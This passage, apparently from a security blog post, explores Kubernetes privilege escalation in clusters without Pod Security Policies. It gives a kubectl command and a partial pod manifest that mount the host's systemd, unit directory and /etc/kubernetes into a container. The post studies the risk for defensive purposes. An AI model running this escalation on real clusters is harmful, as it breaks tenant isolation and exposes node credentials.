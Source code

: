 The intention here is that this user only has access to resources in the namespace for their team. In a multi-tenanted cluster, the workloads in other namespaces are completely invisible.

In Kubernetes, workloads are deployed as [Pods](https://kubernetes.io/docs/concepts/workloads/pods/pod-overview/), which expose a lot of the functionality of running Docker containers.

{{< tweet 935252923721793536 >}}

As a "platform for building platforms", Kubernetes needs to have the power to be extremely flexible. If you are "just" deploying apps, having _all_ that flexibility exposed becomes a liability.

I wanted to understand exactly what was possible when PSPs weren't used, so I experimented with a few different methods to see exactly what I could get access to as a low-privileged user.

# Escalation Methods
## Static Pod Method
One idea I had was using [static pods](https://kubernetes.io/docs/tasks/configure-pod-container/static-pod/) to start containers with arbitrary Service Accounts. Kubernetes [Nodes](https://kubernetes.io/docs/concepts/architecture/nodes/) (EC2 instances) have a [Cluster Role](https://kubernetes.io/docs/reference/access-authn-authz/rbac/#role-and-clusterrole) (not namespace specific) with Pod creation capabilities, but _only for static pods_.

  * Start with a user with normal pod creation privileges (the specific namespace does not matter)
  * Run a pod that has privileges to the underlying host's [`systemd`](https://en.wikipedia.org/wiki/Systemd): `kubectl run -it --rm --restart=Never --overrides="$(cat overrides.json)" --image=centos/systemd bash`. I'm using `kubectl run` and `--overrides` for convenience -- you could also just write a Pod manifest and `kubectl exec` in to it.

`overrides.json`:
```json
{
  "apiVersion": "v1",
  "spec": {
    "containers": [
      {
        "name": "shell",
        "image": "centos/systemd",
        "command": ["bash"],
        "stdin": true,
        "stdinOnce": true,
        "tty": true,
        "volumeMounts": [
          {
            "name": "cgroup-volume",
            "mountPath": "/sys/fs/cgroup"
          },
          {
            "name": "systemd-volume",
            "mountPath": "/run/systemd"
          },
          {
            "name": "unit-volume",
            "mountPath": "/etc/systemd/system"
          },
          {
            "name": "kubernetes-volume",
            "mountPath": "/etc/kubernetes"
          }
        ]
      }
    ],
    "volumes": [
      {
        "name": "cgroup-volume",
```